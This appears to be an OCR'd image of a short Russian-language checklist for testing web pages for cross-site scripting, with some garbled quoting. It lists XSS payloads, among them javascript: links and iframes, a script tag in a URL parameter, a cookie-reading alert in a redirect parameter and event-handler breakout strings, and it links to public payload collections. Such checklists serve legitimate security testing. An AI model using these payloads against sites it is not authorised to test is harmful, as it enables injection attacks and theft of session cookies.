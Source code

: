 # Поиск точек для ввода
Вставить текст и понять где на странице отобразилось сообщение: '">test&lt;
HTML Injection
CSS Injection
<a href="javascript:alert(1)">Link</a>
<iframe src="javascript:alert(1)"></iframe>

# Проверка URL
?returnTo=javascript:alert(document.cookie)
index.php?name=<script>alert(1)</script>

# Проверка форм

# Проверка DOM
<img src=""/resources/images/tracker.gif?searchTerms=asdf"" onload=""alert(1)"">
 "" onclick=alert(1)//<button ‘ onclick=alert(1)//> */ alert(1)//"	"
 
 
# Payloads
https://github.com/swisskyrepo/PayloadsAllTheThings/tree/master/XSS%20Injection
https://github.com/coffinxp/payloads/tree/main"
https://aszx87410.github.io/beyond-xss/en/
